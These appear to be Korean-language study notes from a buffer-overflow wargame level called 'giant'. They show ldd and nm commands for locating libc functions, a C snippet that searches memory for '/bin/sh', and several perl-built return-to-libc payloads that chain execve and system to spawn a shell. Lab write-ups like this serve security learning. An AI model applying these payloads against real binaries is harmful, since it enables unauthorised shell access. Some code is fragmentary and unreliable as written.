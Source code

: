 /usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'
-->접근권한이 없어서 접근 불가
/usr/bin/ldd /home/bugbear/giant | /bin/grep libc | /bin/awk '{print $4}'
--> 실행 가능.
ldd명령어: 해당 바이너리가 가리키는 라이브러리 보여줌
awk: 해당 명령어를 공백과 탭을 이용해서 구분해줌. {print $4} ==> 4번째 출력을 의미함.
(결과) (0x40018000): libc(표준 라이브러리 시작주소
/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'
nm: /usr/bin/nm /lib/libc.so.6 해당 명령어가 제공하는 라이브러리 파일 볼 수 있음.
offset: 첫번재부터 해당 함수까지 거리 ==>(결과) 00091d48
시작주소+offset하면 실제 주소 얻어올 수 있음.
0x400a9d48 <__execve>
0x40058ae0 <__libc_system>
"/bin/sh" is at 0x400fbff9

/* /bin/sh 찾는 프로그램 */
int main(int argc, char **argv){
long shell;
shell=0x4005e430;
while(memcmp((void*)shell,"/bin/sh",8)) shell++;
printf("\"/bin/sh\" is at 0x%x\n",shell);
}

execv()쓰는 법
#include <unistd.h>
// int execve( const char *filename, char *const argv[], char *const envp[]);
int main()
char *shell[2];
shell[0]="/bin/sh";
shell[1]=NULL;
execve("/bin/sh",shell,NULL);
return 0;
}
execve: 0x400a9d48
r $(perl -e 'print "a"x44 . "\x48\x9d\x0a\x40"')
char *argv[]=>[주소][주소][NULL]
execve: 0x400a9d48
/bin/sh: 0x400fbff9
*argv[]: bffffb74(앞에는 상관없고 뒤가 NULL이기만 하면 사용가능)
NULL: bffffb78 
buffer[40]
[쓰레기값44] + [(execve)함수호출주소] + [(system)함수호출주소] + [호출된system함수의 ret주소=>쓰레기값으로 채워줌(4바이트)] + [system함수의 인자값: (/bin/sh)의 주소]
./giant "$(perl -e 'print "a"x44 . "\x48\x9d\x0a\x40" . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40"')"
*펄/파이썬에서 \x0a가 new line이므로 \x00 으로 인식하는 버그 있음=>""로 감싸주면 해결 가능.

*참고 execv함수: 다른 프로그램을 실행시키는 함수

인용구
'' : 특수기호를 무시하는 기능
"": 특수문자 보호
mkdir my dir=> my, dir이라는 두가지 디렉터리 생성
mkdir "my dir" ==> my dir이라는 디렉터리 생성.
echo $SHELL (ex: $=> 뒤의 내용이 변수임을 알려줌.)
[주소] [주소] [NULL]
./giant "$(perl -e 'print "a"x44 . "\x48\x9d\x0a\x40" . "aaaa" . "\xf9\xbf\x0f\x40" . "\x94\xfb\xff\xbf" . "\x78\xfb\xff\xbf"')"
\x74~~>\x94에서 깨짐.
execve호출->system호출->더미4->/bin/sh주소 해도 상관없음
